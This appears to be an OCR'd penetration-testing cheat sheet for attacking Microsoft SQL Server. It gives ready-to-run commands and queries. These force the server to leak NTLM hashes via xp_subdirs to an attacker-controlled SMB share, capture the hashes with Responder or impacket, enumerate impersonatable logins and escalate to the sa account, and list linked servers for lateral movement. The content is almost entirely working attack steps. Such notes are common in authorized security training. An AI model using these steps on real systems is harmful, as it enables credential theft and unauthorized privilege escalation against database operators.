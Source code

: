### XP_SUBDIRS Hash Stealing
```
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```

### XP_SUBDIRS Hash Stealing with Responder
```bash
$ sudo responder -I tun0
```

### XP_SUBDIRS Hash Stealing with impacket
```bash
$ sudo impacket-smbserver share ./ -smb2support
```

## Impersonate Existing Users with MSSQL
### Identify Users that We Can Impersonate
```
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```

### Verifying our Current User and Role
```
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```

### Impersonating the SA User
```
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```
`Note: It's recommended to run EXECUTE AS LOGIN within the master DB, because all users, by default, have access to that database. If a user you are trying to impersonate doesn't have access to the DB you are connecting to it will present an error. Try to move to the master DB using USE master.`

## Communicate with Other Databases with MSSQL
### Identify linked Servers in MSSQL
```
1> SELECT srvname, isremote FROM sysservers
2> GO
```
